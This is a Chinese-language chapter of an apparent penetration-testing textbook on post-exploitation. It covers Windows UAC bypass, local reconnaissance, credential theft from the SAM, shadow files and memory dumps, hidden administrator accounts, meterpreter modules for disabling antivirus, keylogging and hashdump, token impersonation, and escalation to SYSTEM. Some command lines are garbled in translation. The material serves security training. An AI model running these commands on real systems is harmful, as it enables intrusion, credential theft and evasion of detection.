# 五、利用之后——对目标采取行动

在黑客和系统攻击的现代世界中，攻击者关注的不是利用漏洞，而是如何利用该访问权限。这是杀伤链的一部分，攻击者在该链中实现攻击的全部价值。

一旦系统遭到破坏，攻击者通常会执行以下活动：

*   进行快速评估，以确定本地环境的特征（基础架构、连接性、帐户、目标文件的存在，以及可能促进进一步攻击的应用）
*   查找、复制或修改感兴趣的目标文件，例如数据文件（专有数据和财务信息）
*   创建其他帐户并修改系统以支持利用后活动
*   试图通过捕获管理员或系统级凭据垂直提升用于访问的权限级别
*   试图攻击其他数据系统（水平升级），方法是将攻击通过受损系统转移到网络的其余部分
*   安装持久后门和隐蔽通道以保持控制并与受损系统进行安全通信（这在[第 6 章](06.html "Chapter 6. Post Exploit – Persistence")、*攻击后-持久化*中有介绍）
*   从受损系统中删除攻击迹象

为了获得成功，攻击后活动需要全面了解目标的操作系统和文件结构，以确保可以绕过保护控制。攻击后的第一步是在本地网络环境中侦察受损系统。

在本章中，您将学习以下内容：

*   如何绕过 Windows**用户账号控制**（**UAC**）
*   如何对受损系统进行快速侦察
*   如何从受损系统获取敏感数据（掠夺）
*   如何创建其他帐户
*   如何使用 Metasploit 框架进行利用后活动
*   纵向和横向升级技术，以提高您的访问权限并增加受损帐户的数量
*   如何使用反取证技术来掩盖你的行踪并防止被发现

# 绕过 Windows 用户帐户控制

在 Windows Vista 及更高版本中，微软引入了安全控制，以限制进程在三种完整性级别上运行：高、中、低。高完整性进程具有管理员权限，中等级别进程使用标准用户权限运行，低完整性进程受到限制，强制程序在受到破坏时造成的损害最小。

要执行任何特权操作，程序必须以管理员身份运行并符合 UAC 设置。四个 UAC 设置如下：

*   **始终通知**：这是最严格的设置，当任何程序想要使用更高级别的权限时，都会提示本地用户。
*   **仅当程序试图更改我的计算机时通知我**：这是默认的 UAC 设置。当本机 Windows 程序请求更高级别的权限时，它不会提示用户。但是，如果第三方程序需要提升权限，它将提示。
*   **仅当程序试图更改我的计算机时通知我（不要调暗我的桌面）**：这与默认设置相同，但在提示用户时不会调暗系统监视器。
*   **从不通知**：此选项将系统恢复到 Vista 之前的天数。如果用户是管理员，则所有程序都将以高完整性运行。

因此，在攻击后，测试人员（和攻击者）立即想知道以下两件事：

*   系统识别的用户是谁？
*   他们对系统有什么权利？

这可以使用以下命令确定：

```
C:\> whoami /groups

```

受损系统在高完整性环境下运行，如以下屏幕截图中的`Mandatory Label\High Mandatory Level Label`所示：



如果`Label`是`Mandatory Label\Medium Mandatory Level`，测试人员需要将标准用户权限提升为管理员权限，才能成功执行许多利用漏洞后的步骤。

提升特权的第一个选项是从 Metasploit 运行`exploit/windows/local/ask`，Metasploit 启动`RunAs`攻击。此将创建一个可执行文件，当调用该文件时，将运行一个程序以请求提升的权限。应使用`EXE::Custom`选项创建可执行文件，或使用`Veil-Evasion`进行加密，以避免被本地防病毒软件检测到。

`RunAs`攻击的缺点是会提示用户来自未知发布者的程序想要对计算机进行更改。此警报可能导致权限提升被标识为攻击。

如果系统的当前用户在管理员组中，并且如果 UAC 设置为默认的**仅当程序尝试更改我的计算机时通知我**（如果设置为**始终通知**将无法工作），攻击者将能够使用 Metasploit`exploit/windows/local/bypassuac`模块提升其权限。

`bypassuac`模块在目标系统上创建多个工件，大多数防病毒软件都可以识别。然而，`exploit/windows/local/bypassuac_inject`模块将可执行文件直接放入内存中运行的反射 DLL 中，并且不接触硬盘，从而最大限度地减少了防病毒软件检测的机会。

试图绕过 UAC 控制时的一些注意事项如下：

*   绕过 UAC 攻击对 Windows Vista 不起作用，在 Windows Vista 中，用户需要确认每个特权访问。
*   Windows 8 仍然容易受到此攻击。但是，Metasploit 框架攻击目前不适用于 Windows 8.1。如果试图进行此攻击，则会提示用户单击“确定”按钮，然后攻击才能获得提升的权限，这很难算是秘密攻击。攻击者可以通过选择使用`exploit/windows/local/ask`来修改攻击，这将提高成功几率。
*   在考虑系统到系统的移动（水平/横向升级）时，如果当前用户是在其他系统上具有本地管理员权限的域用户，则可以使用现有身份验证令牌获得访问权限并绕过 UAC。实现这一点的常见攻击是 Metasploit`exploit/windows/local/current_user_psexec`。

# 对受损系统进行快速侦察

一旦系统被破坏，攻击者需要获得有关该系统、其网络环境、用户和用户帐户的关键信息。通常，他们会输入一系列命令或从 shell 提示符调用这些命令的脚本。

如果受损系统基于 Unix 平台，典型的本地侦察命令将包括以下内容：

<colgroup><col style="text-align: left"> <col style="text-align: left"></colgroup> 
| 

命令

 | 

描述

 |
| --- | --- |
| `/etc/resolv.conf` | 使用`copy`命令访问并查看系统的当前 DNS 设置。由于它是具有读取权限的全局文件，因此在访问时不会触发警报。 |
| `/etc/passwd`和`/etc/shadow` | 这些是包含用户名和密码哈希的系统文件。它可以由具有根级别访问权限的人员复制，并且可以使用诸如 John the Ripper 之类的工具来破解密码。 |
| `whoami and who -a` | 识别本地系统上的用户。 |
| `ifconfig -a`、`iptables -L -n`和`netstat -r` | 提供网络信息。`ifconfig -a`提供 IP 寻址详细信息，`iptables -L -n`列出本地防火墙（如果存在）中的所有规则，`netstat -r`显示内核维护的路由信息。 |
| `uname -a` | 打印内核版本。 |
| `ps aux` | 打印当前正在运行的服务、进程 ID 和其他信息。 |
| `dpkg -l yum list &#124; grep installed`和`dpkg -l rpm -qa --last &#124; head` | 识别已安装的软件包。 |

这些命令包含可用选项的简要概要。有关如何使用该命令的完整信息，请参阅相应命令的帮助文件。

对于 Windows 系统，将输入以下命令：

<colgroup><col style="text-align: left"> <col style="text-align: left"></colgroup> 
| 

命令

 | 

描述

 |
| --- | --- |
| `whoami /all` | 列出当前用户、SID、用户权限和组。 |
| `ipconfig /all`和`ipconfig /displaydns` | 显示有关网络接口、连接协议和本地 DNS 缓存的信息。 |
| `netstat -bnao`和`netstat -r` | 列出对应进程（`-b`）的端口和连接，以不查找（`-n`）、所有连接（`-a`）和父进程 ID（`-o`）。`-r`选项显示路由表。它们需要管理员权限才能运行。 |
| `net view`和`net view /domain` | 查询 NBN/SMB 以定位当前工作组或域中的所有主机。主机可用的所有域由`/domain`给出。 |
| `net user /domain` | 列出定义域中的所有用户。 |
| `net user %username% /domain` | 如果当前用户是查询域的一部分，则获取当前用户的信息（如果您是本地用户，则不需要`/domain`。它包括登录时间、上次更改密码的时间、登录脚本和组成员身份。 |
| `net accounts` | 打印本地系统的密码策略。要打印域的密码策略，请使用`net accounts /domain`。 |
| `net localgroup administrators` | 打印管理员本地组的成员。使用`/domain`开关获取当前域的管理员。 |
| `net group "Domain Controllers" /domain` | 打印当前域的域控制器列表。 |
| `net share` | 显示当前共享文件夹（可能无法为文件夹中共享的数据提供足够的访问控制）及其指向的路径。 |

## 使用 WMIC 脚本语言

在较新的系统上，攻击者和渗透测试人员利用内置脚本语言，例如**Windows Management Instrumentation 命令行**（**WMIC**）、命令行和脚本接口，用于简化对 Windows Instrumentation 的访问。如果受损系统支持 WMIC，则可以使用多个命令来收集信息。请参阅下表：

<colgroup><col style="text-align: left"> <col style="text-align: left"></colgroup> 
| 

命令

 | 

描述

 |
| --- | --- |
| `wmic nicconfig get ipaddress,macaddress` | 获取 IP 地址和 MAC 地址 |
| `wmic computersystem get username` | 验证已泄露的帐户 |
| `wmic netlogin get name, lastlogon` | 确定上次使用此系统的用户以及上次登录的时间 |
| `wmic desktop get screensaversecure, screensavertimeout` | 确定屏幕保护程序是否受密码保护以及超时时间 |
| `wmic logon get authenticationpackage` | 确定支持哪些登录方法 |
| `wmic process get caption, executablepath, commandline` | 识别系统进程 |
| `wmic process where name="process_name" call terminate` | 终止特定进程 |
| `wmic os get name, servicepackmajorversion` | 确定系统的操作系统 |
| `wmic product get name, version` | 识别已安装的软件 |
| `wmic product where name="name' call uninstall /nointeractive` | 卸载或删除已定义的软件包 |
| `wmic share get /ALL` | 标识用户可访问的共享 |
| `wmic /node:"machinename" path Win32_TerminalServiceSetting where AllowTSConnections="0" call SetAllowTSConnections "1"` | 远程启动 RDP |
| `wmic nteventlog get path, filename, writeable` | 查找所有系统事件日志并确保可以修改它们（在需要覆盖跟踪时使用） |

PowerShell 是一种基于.NET Framework 构建的脚本语言，从控制台运行，允许用户访问 Windows 文件系统和注册表等对象。默认情况下，它安装在 Windows 7 操作系统和更高版本上。PowerShell 通过允许在本地和远程目标上使用 shell 集成和互操作性，扩展了 WMIC 提供的脚本支持和自动化。

PowerShell 允许测试人员在受损系统上访问 shell 和脚本语言。由于它是 Windows 操作系统自带的，因此使用这些命令不会触发防病毒软件。在远程系统上运行脚本时，PowerShell 不会写入磁盘，从而绕过防病毒程序并将控件列入白名单（假设用户已允许使用 PowerShell）。

PowerShell 支持许多称为 cmdlet 的内置函数。PowerShell 的优点之一是 cmdlet 被别名为常见 Unix 命令，因此输入`ls`命令将返回典型的目录列表，如以下屏幕截图所示：



PowerShell 是一种丰富的语言，能够支持非常复杂的操作；建议用户花时间熟悉其使用。下表中描述了一些可在妥协后立即使用的简单命令：

<colgroup><col style="text-align: left"> <col style="text-align: left"></colgroup> 
| 

命令

 | 

描述

 |
| --- | --- |
| `Get-Host &#124; Select Version` | 标识受害者系统使用的 PowerShell 版本。某些 cmdlet 在不同版本中添加或调用。 |
| `Get-Hotfix` | 标识已安装的安全修补程序和系统修补程序。 |
| `Get-Acl` | 标识组名和用户名。 |
| `Get-Process, Get-Service` | 列出当前的流程和服务。 |
| `gwmi win32_useraccount` | 调用 WMI 以列出用户帐户。 |
| `Gwmi_win32_group` | 调用 WMI 以列出 SID、名称和域组。 |

渗透测试人员可以同时使用 Windows 本机命令、DLL、.NET 函数、WMI 调用和 PowerShell cmdlet 来创建扩展名为`.ps1`的 PowerShell 脚本。

### 提示

在最近的一次渗透测试中，我们被禁止在客户端系统上安装任何可执行软件。我们在受损系统上使用 PowerShell 键盘记录器获取管理员级凭据，然后破坏了网络上的大多数系统。最有效的攻击和攻击后脚本，包括键盘记录器，是 Nikhil Mittal 的`Nishang`软件包（[的一部分 https://code.google.com/p/nishang/downloads/detail?name=nishang_0.3.0.zip](https://code.google.com/p/nishang/downloads/detail?name=nishang_0.3.0.zip) 。

侦察还应延伸到本地网络。由于您是“盲”工作，您需要创建一个活动系统和子网的地图，受损主机可以与之通信。首先在 shell 提示符中输入`IFCONFIG`（基于 Unix 的系统）或`IPCONFIG /ALL`（Windows 系统）。这将允许攻击者确定以下内容：

*   是否启用 DHCP 寻址。
*   本地 IP 地址，它还将标识至少一个活动子网。
*   网关 IP 地址和 DNS 服务器地址。系统管理员通常在网络中遵循编号约定，如果攻击者知道一个地址，如网关服务器`172.16.21.5`，他们将 ping 地址，如`172.16.20.5`、`172.16.22.5`等，以查找其他子网。
*   用于利用**Active Directory**帐户的域名。

如果攻击的系统和目标系统使用 Windows，`net view`命令可用于枚举网络上的其他 Windows 系统。攻击者使用`netstat -rn`命令查看路由表，其中可能包含到感兴趣的网络或系统的静态路由。

可以使用`nmap`扫描本地网络以嗅探 ARP 广播。此外，Kali 有几个工具可用于 SNMP 端点分析，包括`nmap`、`onesixtyone`和`snmpcheck`。

部署数据包嗅探器来映射流量将帮助您识别主机名、活动子网和域名。如果未启用 DHCP 寻址，攻击者还可以识别任何未使用的静态 IP 地址。Kali 已使用 Wireshark（基于 GUI 的数据包嗅探器）预配置了，但您也可以在攻击后脚本中或从命令行使用`tshark`，如以下屏幕截图所示：


# 发现并获取敏感数据——掠夺目标

术语**劫掠**（有时称为**劫掠**是指那些成功入侵系统的黑客将自己视为海盗，争先恐后地向他们的目标窃取或破坏尽可能多的数据。这些术语作为一种更为谨慎的做法的参考而存在，即在达到利用目的后，盗窃或修改专有或财务数据。

然后，攻击者可以将注意力集中在次要目标系统文件上，这些文件将提供支持其他攻击的信息。辅助文件的选择将取决于目标的操作系统。例如，如果受损系统是 Unix，则攻击者还将针对以下目标：

*   系统和配置文件（通常在`/etc`目录中，但根据实现情况，它们可能在`/usr/local/etc`或其他位置）
*   密码文件（`/etc/password`和`/etc/shadow`）
*   `.ssh`目录中的配置文件和公钥/私钥
*   `.gnupg`目录中可能包含的公钥和私钥环
*   电子邮件和数据文件

在 Windows 系统中，攻击者将攻击以下目标：

*   系统内存，可用于提取密码、加密密钥等
*   系统注册表文件
*   **安全账户管理器**（**SAM**）数据库，其中包含密码的哈希版本，或 SAM 数据库的替代版本，可在`%SYSTEMROOT%\repair\SAM`和`%SYSTEMROOT%\System32\config\RegBack\SAM`中找到
*   用于加密的任何其他密码或种子文件
*   电子邮件和数据文件

### 提示

不要忘记查看包含临时项目（如附件）的文件夹。例如，`UserProfile\AppData\Local\Microsoft\Windows\Temporary Internet Files\`可能包含感兴趣的文件、图像和 cookie。

如上所述，系统内存包含大量信息供任何攻击者使用。因此，它通常是您需要获取的优先级文件。系统内存可以作为单个图像文件从以下几个来源下载：

*   将一个工具上传到受损系统，然后直接复制内存（该工具包括**Belkasoft RAM capturer**、**MandiantMemoryze**、**MonsolsDumpIt**）。
*   通过复制 Windows 休眠文件`hiberfil.sys`，然后使用 volatile 对文件进行解密和分析。Volatility 位于 Kali 的`Forensics`菜单中，它是一个框架，用于分析来自系统 RAM 和其他包含系统内存的文件的内存转储。它依赖于用 Python 编写的插件来分析内存和提取数据，如加密密钥、密码、注册表信息、进程和连接信息。
*   通过复制虚拟机并将 VMEM 文件转换为内存文件。

### 提示

如果您将一个旨在捕获内存的程序上载到受损系统上，则该特定应用可能会被防病毒软件识别为恶意软件。大多数防病毒软件应用识别内存获取软件的哈希签名和行为，并在物理内存有泄露风险时发出警报，以保护物理内存的敏感内容。采集软件将被隔离，目标将收到警告，提醒他们攻击。

为了避免这种情况，请使用 Metasploit Framework，使用以下命令在目标内存中完全运行可执行文件：

```
meterpreter> execute -H -m -d calc.exe -f <memoryexecutable + parameters>
```

前一个命令将`calc.exe`作为伪可执行文件执行，但将上载内存获取可执行文件以在其进程空间中运行。

可执行文件不会出现在进程列表中，例如任务管理器，使用数据取证技术进行检测要困难得多，因为它不会写入磁盘。此外，它将避免系统的防病毒软件，通常不会扫描内存空间来搜索恶意软件。

一旦下载了物理内存，就可以使用 Volatility 框架对其进行分析，Volatility 框架是一个 Python 脚本集合，旨在对内存进行取证分析。如果支持操作系统，Volatility 将扫描内存文件并提取以下内容：

*   图像信息和系统数据足以*将*图像连接到其源系统。
*   正在运行的进程、加载的 DLL、线程、套接字、连接和模块。
*   打开的网络套接字和连接，以及最近打开的网络连接。
*   内存地址，包括物理和虚拟内存映射。
*   LM/NTLM 哈希和 LSA 机密。**兰曼**（**LM**）密码哈希是微软最初保护密码的尝试。多年来，破解密码并将哈希值转换回实际密码变得非常简单。**NT LanMan**（**NTLM**）散列更为新颖，更具攻击弹性。但是，为了向后兼容，它们通常与 NTLM 版本一起存储。**本地安全机构**（**LSA**）存储本地密码的“秘密”：远程访问（有线或无线）、VPN、自动登录密码等。系统上存储的任何密码都易受攻击，尤其是当用户重复使用密码时。
*   存储在内存中的特定正则表达式或字符串。

使用感染 Zeus 恶意软件（[的系统的样本图像 https://code.google.com/p/volatility/wiki/SampleMemoryImages](https://code.google.com/p/volatility/wiki/SampleMemoryImages) ），我们将使用 Volatility 框架提取加密的 LanMan 密码散列。

第一步是使用以下命令确定映像类型和操作系统：

```
root@kali:usr/share/volatility# python vol.py imageinfo -f
  /root/Desktop/zeus.vmem 

```

上一个命令的执行如以下屏幕截图所示：


使用以下命令调用时，**hivelist**插件将打印出各个注册表 Hive 的初始虚拟内存位置：

```
root@kali:usr/share/volatility#python vol.py hivelist -f
  /root/Desktop/zeus.vmem 

```

上一个命令的执行如以下屏幕截图所示：


为了转储哈希，需要 SAM 和系统配置单元的初始虚拟内存位置。使用以下命令，结果通过管道传输到逗号分隔的文件，由密码破解应用直接导入：

```
root@kali:usr/share/volatility#python vol.py hashdump -f 
  /root/Desktop/zeus.vmem -y 0xe101b008 -s 0xe1544008 
  >>/root/Desktop/hashdump.csv 

```

上一个命令的执行如以下屏幕截图所示：


可以使用 Hashcat、John The Ripper、Ophcrack 和 Rainbow 表来破解孤立的 LM 哈希。

# 创建其他账户

以下命令具有高度侵入性，通常由系统所有者在事件响应过程中检测到。但是，攻击者经常植入它们，以使注意力远离更持久的访问机制。请参阅下表：

<colgroup><col style="text-align: left"> <col style="text-align: left"></colgroup> 
| 

命令

 | 

描述

 |
| --- | --- |
| `net user attacker password /add` | 创建一个新的本地帐户，用户名为`attacker`，密码为`password`。 |
| `net localgroup administrators attacker /add` | 将新用户`attacker`添加到本地管理员组。在某些情况下，命令将为`net localgroup administrators /add attacker`。 |
| `net user username /active:yes /domain` | 将非活动或禁用的帐户更改为活动帐户。在小型组织中，这会引起注意。密码管理不善的大型企业可以将其 30%的密码标记为“非活动”，因此这可能是获得帐户的有效方法。 |
| `net share name$=C:\ /grant:attacker,FULL /unlimited` | 将`C:`（或另一个指定的驱动器）共享为 Windows 共享，并授予用户（攻击者）访问或修改该驱动器上所有内容的完全权限。 |

如果您创建了一个新的用户帐户，当任何人登录到系统的欢迎屏幕时都会注意到。要使帐户不可见，您需要使用以下`REG`命令从命令行修改注册表：

```
REG ADD 
  HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\WindowsNT\CurrentVersion
  \WinLogon\SpecialAccounts\UserList /V account_name /
  T REG_DWORD /D 0 

```

这将修改指定的注册表项以隐藏用户的帐户（`/V`。同样，基于目标操作系统的特定版本，可能会有特殊的语法要求，因此首先确定 Windows 版本，然后在受控测试环境中对其进行验证，然后再针对目标实现它。

# 使用 Metasploit 进行利用后活动

Metasploit 是利用的，用于支持利用和利用后活动。当前版本包含大约 200 个模块，可简化利用漏洞后的活动。我们将回顾一些最重要的模块。

在下面的屏幕截图中，我们成功地利用了 Windows XP 系统（一种“经典”攻击，通常用于验证`meterpreter`更复杂的方面）。第一步是立即对网络和受损系统进行侦察。

初始`meterpreter`外壳易碎，在较长时间内容易发生故障。因此，一旦系统被利用，我们将迁移 shell 并用更稳定的进程绑定它。这也使得检测利用漏洞更加困难。

在`meterpreter`提示下，输入`ps`获取正在运行的进程列表，如下图所示：


`ps`命令还返回每个进程的完整路径名。上一个屏幕截图中忽略了这一点。该`ps`列表标识该`c:\windows\Explorer.EXE`正在运行。在这种特殊情况下，它用过程 ID`1460`标识，如下面的屏幕截图所示。由于这是一个通常稳定的应用，我们将把 shell 迁移到该进程中。


现在我们已经有了到远程系统的稳定 shell 连接，我们将使用支持攻击后活动的`meterpreter`脚本。

首先要确定的参数之一是：我们是否在虚拟机上？当受损系统和攻击者之间的`meterpreter`会话打开时，会发出`run checkvm`命令，如下图所示。返回的数据表明`This is a VMware Virtual Machine`。


下表描述了通过`meterpreter`提供的一些最重要的利用后模块：

<colgroup><col style="text-align: left"> <col style="text-align: left"></colgroup> 
| 

命令

 | 

描述

 |
| --- | --- |
| `run checkvm` | 确定是否存在虚拟机。 |
| `run getcountermeasure` | 检查受攻击系统上的安全配置（防病毒、防火墙等）。 |
| `run killav` | 禁用在受损系统上运行的大多数防病毒服务。此脚本经常过时，应手动验证是否成功。 |
| `run hostsedit` | 允许攻击者向 Windows`HOSTS`文件添加条目。这会将流量转移到另一个站点（假站点），该站点将下载其他工具或确保防病毒软件无法连接到 Internet 或本地服务器以获取签名更新。 |
| `run winenum` | 执行被利用系统的命令行和 WMIC 特征。它从注册表和 LM 散列中转储重要的键。 |
| `run scraper` | 收集其他脚本（如整个窗口注册表）未收集的全面信息。 |
| `run upload`和`run download` | 允许攻击者在目标系统上上载和下载文件。 |
| `run keyscan_start`、`run keyscan_stop`和`run keyscan_dump` | 启动和停止系统上的本地键盘记录器。数据收集完成后，收集的文本数据将转储到攻击者的系统中。 |
| `run getprivs` | 尝试启用当前进程可用的所有特权。这对于特权升级非常有用。 |
| `run getsystem` | 尝试将权限提升到 Windows`SYSTEM`级别；授予用户权限的最大可能升级。 |
| `Run hashdump` | 将 SAM 数据库的内容转储到攻击者的系统上。 |
| `run getgui` | 允许用户启用 RDP（`getgui -e`并设置用户名和密码（`getgui -u`）。`gettelnet`脚本可以以相同的方式运行。 |
| `run vnc` | 向攻击者提供受损系统的远程 GUI（VNC）。 |

最有效的`meterpreter`脚本之一是**Windows 枚举器**（**winenum**）。正如在下面的屏幕截图中所看到的，它使用命令行和 WMIC 调用来全面描述目标系统：



除枚举外，`winenum`脚本还转储注册表并收集系统哈希进行解密，如下图所示：



`meterpreter`附带了几个支持复杂函数的有用库。例如，`espia`库通过以下命令支持受损系统的屏幕截图：

```
meterpreter> use espia
Loading extension espia ... success.
meterpreter> screenshot /Desktop/target.jpeg
Screenshot saved to: /root/xsWoDDbW.jpeg

```

`stdapi`库允许远程攻击者通过从受损系统收集音频和视频并将数据转发回攻击者来操纵网络摄像头。

# 提升受损主机上的用户权限

通常可以访问`Guest`或`User`系统。通常，攻击者访问重要信息的能力会受到权限级别降低的限制。因此，一种常见的攻击后活动是将访问权限从`Guest`升级到`User`到`Administrator`，最后升级到`SYSTEM`。这种获得访问权限的向上进展通常被称为**垂直升级**。

用户可以实现几种获取高级访问凭证的方法，包括：

*   使用网络嗅探器和/或键盘记录器捕获传输的用户凭据（`dsniff`用于从实时传输或从 Wireshark 或 tshark 会话保存的`pcap`文件中提取密码）。
*   Perform a search for locally stored passwords. Some users collect passwords in an e-mail folder (frequently called `passwords`). Since password reuse and simple password construction systems are common, the passwords that are found can be employed during the escalation process.

    NirSoft（[www.NirSoft.net](http://www.nirsoft.net)生产了几种免费工具，可以使用`meterpreter`从操作系统和缓存密码的应用（邮件、远程访问软件、FTP 和 web 浏览器）中提取密码，上传到受损系统。

*   使用`meterpreter`或**hobocopy**、**fgdump**、**pwdump**等应用转储`SAM`和`SYSKEY`文件（可以使用`meterpreter`上传到目标上）。
*   使用进程注入器等工具（[www.tarasco.org/security/process_injector/](http://www.tarasco.org/security/Process_Injector/)将恶意代码直接注入`SYSTEM`级别运行的服务。
*   当一些应用加载时，它们以特定顺序读取**动态链接库**（**DLL**）文件。可以创建与合法 DLL 同名的假 DLL，将其放置在特定目录位置，并让应用加载和执行它，从而提高攻击者的权限。已知有几个应用易受此类 DLL 劫持攻击（[www.exploit-db.com/DLL-jacking-vulder-applications/](http://www.exploit-db.com/dll-hijacking-vulnerable-applications/)攻击）。
*   应用利用缓冲区溢出或其他方式升级权限的漏洞。
*   执行`getsystem`脚本，从`meterpreter`提示符自动将管理员权限提升到`SYSTEM`级别。

### 提示

Windows 7 和 2008 不允许从不受信任的系统远程访问管理共享，如`ADMIN$`、`C$`等。`meterpreter`脚本可能需要这些共享，例如匿名，或者支持 SMB 上的攻击。要解决此问题，请将`HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System`添加到注册表中，并添加一个名为`LocalAccountTokenFilterPolicy`的新 DWORD（32 位）键，并将该值设置为`1`。

# 使用匿名重放认证令牌

一个特别有趣的`meterpreter`库是`incognito`，它允许您模拟和重放用户令牌。令牌是临时密钥，允许您访问网络和系统资源，而无需在每次访问时提供密码或其他凭据。这些令牌在系统重新启动之前一直保留在系统上。

一旦您破坏了一个系统，您就可以使用令牌来模拟以前创建令牌的用户，而无需破解该用户的密码。此令牌模拟可能允许攻击者升级其权限。

在提示下，键入以下内容：

```
use incognito

```

上一个命令的执行如以下屏幕截图所示：



第一步是识别受损系统上存在的所有有效令牌。您可以看到的令牌数量将取决于最初用于破坏目标系统的访问级别。

您还将看到有两种类型的代币，如下面的屏幕截图所示。委托令牌支持交互式登录（例如，在本地或通过远程桌面登录到系统）。模拟令牌用于非交互会话，例如当系统连接到网络驱动器时。


如您所见，委派令牌已被标识为`Administrator`。如果我们可以模拟这个令牌，我们就可以拥有它的特权。

在`incognito`中调用`impersonate_token`命令时（如下截图所示），请注意该命令中需要两个反斜杠：



现在，如果我们在`meterpreter`提示符下运行 shell 命令并输入`whoami`，它会将我们标识为我们模拟其令牌的管理员。

## 使用 Windows 凭据编辑器操作访问凭据

**Windows 凭证编辑器**（**WCE**）—[http://www.ampliasecurity.com/research/wcefaq.html](http://www.ampliasecurity.com/research/wcefaq.html) -是隐姓埋名脚本的精炼版本。它有 32 位和 64 位版本，还有一个“通用”版本，据称可以在所有 Windows 平台上使用。WCE 允许用户执行以下操作：

*   在 Windows 系统上执行传递哈希攻击
*   从系统内存收集 NTLM 凭据（带或不带代码注入）
*   从 Windows 系统收集 Kerberos 票证
*   在其他 Windows 或 Unix 系统上使用收集的 Kerberos 票证来获得访问权限
*   转储 Windows 系统存储的明文密码（请参阅以下部分）

要使用 WCE，请从`meterpreter`提示符将可执行文件上传到受损系统。然后，启动一个交互式 shell 并执行 WCE。正如您在下面的屏幕截图中所看到的，`-w`选项很容易提取明文`Administrator`密码：



## 从管理员升级到系统

管理员权限允许攻击者创建和管理帐户，并访问系统上的大部分可用数据。然而，一些复杂的功能要求请求者具有`SYSTEM`级访问权限。有几种方法可以将此升级继续到`SYSTEM`级别。最常见的是使用`at`命令，Windows 使用该命令为特定时间安排任务。`at`命令始终以`SYSTEM`级别的权限运行。

使用交互式 shell（在`meterpreter`提示符处输入`shell`，打开命令提示符并确定受损系统的本地时间。如果时间是 12:50 P.M.（`at`函数使用 24 小时表示法），则将交互式命令 shell 安排在稍后的时间，如以下屏幕截图所示：



`at`任务计划运行后，在`meterpreter`提示下重新确认您的访问权限，如下图所示：



如您所见，特权已升级到`SYSTEM`级别。

# 通过横向升级访问新账户

在水平升级中，攻击者保留其现有凭据，但使用它们对不同用户的帐户进行操作。例如，受损系统 a 上的用户攻击系统 B 上的用户，试图对其进行破坏。

